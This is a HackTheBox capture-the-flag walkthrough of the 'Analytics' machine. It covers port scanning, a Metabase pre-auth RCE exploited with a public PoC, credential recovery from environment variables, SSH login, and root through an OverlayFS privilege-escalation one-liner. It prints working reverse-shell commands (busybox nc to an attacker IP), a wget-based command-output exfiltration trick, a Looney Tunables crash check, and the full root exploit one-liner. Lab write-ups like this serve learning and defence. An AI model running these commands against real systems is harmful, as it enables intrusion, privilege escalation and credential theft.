

# HackTheBox: [Analytics](https://app.hackthebox.com/machines/Analytics)

## Enumeration

```console
$ nmap -n -sCV -T4 -F $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-08 14:34 CST
Nmap scan report for 10.10.11.233
Host is up (0.21s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.15 seconds
```

Port 80 redirects to host `analytical.htb`, so I added that to `/etc/hosts`.

The page had a "Login" button, which redirected to `data.analytical.htb`, so I also added that to `/etc/hosts`.

<http://data.analytical.htb/auth/login>:



## Exploitation

[Metabase](https://www.metabase.com/) has a recent [pre-auth RCE](https://github.com/joaoviictorti/CVE-2023-38646) vulnerability.

`"setup-token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"`

There is a [PoC for the vulnerability](https://github.com/joaoviictorti/CVE-2023-38646) available, but it's in Rust and I had some trouble getting it to compile on Kali.

The version of `cargo` on Kali is currently 1.65.0, which wasn't sufficient for the PoC, so I installed version 1.73.0 in userspace. Still, it complained about an error with the OpenSSL depency. To fix that, I added this to the `[dependencies]` section of `Cargo.toml`:

```console
openssl = { version = "0.10", features = ["vendored"] }
```

I started a `nc` listener on port 443 and tried the exploit:

```console
$ cargo run -- --url http://data.analytical.htb --command 'nc 10.10.16.5 443 -e sh'
    Finished dev [unoptimized + debuginfo] target(s) in 1.25s
     Running `target/debug/cve_2023_38646 --url 'http://data.analytical.htb' --command 'nc 10.10.16.5 443 -e sh'`
[+] Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[+] Exploit Success!
```

The exploit completes, however the listener sees a connection that immediately exits.

I was able to do some slow and awkward recon by passing simple commands to `wget` where I could view the results via Python3 `http.server`:

```console
$ cargo run -- --url http://data.analytical.htb --command 'wget http://10.10.16.5:8888/`whoami`'
```

And on the server:

```console
$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.11.233 - - [10/Oct/2023 10:53:38] code 404, message File not found
10.10.11.233 - - [10/Oct/2023 10:53:38] "GET /metabase HTTP/1.1" 404 -
```

Via that method, I was able to determine the box was running [Alpine Linux](https://www.alpinelinux.org/) in a relatively minimal environment. That information is also discoverable via the [Metabase dockerfile](https://github.com/metabase/metabase/blob/master/Dockerfile), if you know where to look.

Eventually I discovered that running the commands explicitly via `busybox` solved the problem:

```console
$ cargo run -- --url http://data.analytical.htb --command 'busybox nc 10.10.16.5 443 -e busybox sh'
    Finished dev [unoptimized + debuginfo] target(s) in 0.06s
     Running `target/debug/cve_2023_38646 --url 'http://data.analytical.htb' --command 'busybox nc 10.10.16.5 443 -e busybox sh'`
[+] Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[+] Exploit Success!
```

And on the listener:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.233] 35149
id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
```

There are some interesting files in the container, notably `metabase.db.mv.db`, which (I think) is the H2 database to bootstrap the application. I transferred it and the `jar` file for the app (`/app/metabase.jar`) to my machine using `nc`. Running `strings` on the database turned up a user login and password hash:

```text
metalytics@data.htbJJohnnyISmith
<$2a$10$HnyM8[...]
```

I started `john` with `rockyou.txt` but ultimately never recovered the password, but I didn't need it, because the environment had what I needed:

```console
env | grep META
META_PASS=An4lyt[...]
META_USER=metalytics
```

Thanks to password-reuse I was able to login to the target:

```console
$ ssh metalytics@$t
metalytics@10.10.11.233's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
[...]

Last login: Tue Oct  3 09:14:35 2023 from 10.10.14.41

metalytics@analytics:~$ cat user.txt
1face9[...]
```

## Escalation

## Looney Tunables?

```console
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux

metalytics@analytics:~$ cat /etc/issue
Ubuntu 22.04.3 LTS \n \l
```

This host appears vulnerable to the [Looney Tunables buffer overflow](https://www.qualys.com/2023/10/03/cve-2023-4911/looney-tunables-local-privilege-escalation-glibc-ld-so.txt), an vulnerability exploitable via the `GLIBC_TUNABLES` environmental variable.

[CrowdSec has a nice write-up](https://www.crowdsec.net/blog/detect-looney-tunables-exploitation-attempts), which includes a way to verify that the host is vulnerable:

```console
metalytics@analytics:~$ env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
Segmentation fault (core dumped)
```

A [PoC is available for the Looney Tunables bug](https://github.com/RickdeJager/CVE-2023-4911), but this target doesn't have `gcc` and it's not the cleanest exploit; i.e., it takes five minutes to complete on Ubuntu.

But there's a quicker option.

## OverlayFS Exploit

The target is vulnerable to [CVE-2023-2640](https://nvd.nist.gov/vuln/detail/CVE-2023-2640) and [CVE-2023-32629](https://nvd.nist.gov/vuln/detail/CVE-2023-32629). The exploit is a one-liner:

```console

metalytics@analytics:/tmp/t$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("sh")'
mkdir: cannot create directory ‘l’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists
## id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
## cat /root/root.txt
127e2e[...]
```
